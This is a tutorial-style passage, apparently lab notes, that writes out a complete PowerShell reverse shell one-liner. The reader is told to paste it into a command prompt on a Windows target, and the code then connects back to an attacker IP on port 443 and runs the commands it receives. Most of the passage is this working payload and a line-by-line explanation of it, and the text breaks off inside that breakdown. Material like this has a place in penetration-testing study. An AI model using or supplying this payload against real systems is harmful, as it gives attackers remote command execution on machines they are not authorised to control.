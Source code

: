 This is an excellent question to ask any time we are trying to establish a reverse shell. Let's use command prompt & PowerShell to establish this simple reverse shell. We can use a standard PowerShell reverse shell one-liner to illustrate this point.

On the Windows target, open a command prompt and copy & paste this command:

##### Client Target

```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

### PowerShell Reverse Shell Payload

#### **Overview**

This PowerShell one-liner establishes a reverse shell connection from the target to an attacker's machine. The payload uses PowerShell's capabilities to create a TCP client that communicates with the attacker's listener.

---

#### **Command Breakdown**

```shell
powershell -nop -c "..."
```

- **`-nop`**: Runs PowerShell without the startup profile, reducing potential interference.
- **`-c`**: Executes the command provided as a string.

---

#### **Core Logic**

```shell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);
```

- Creates a TCP client to connect to the attacker's machine (`10.10.14.158`) on port `443`.

```shell
$stream = $client.GetStream(); [byte[]]$bytes = 0..65535|%{0};
```

- Opens a data stream for communication.
- Allocates a buffer array for reading incoming data.

```shell
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush();
}
```
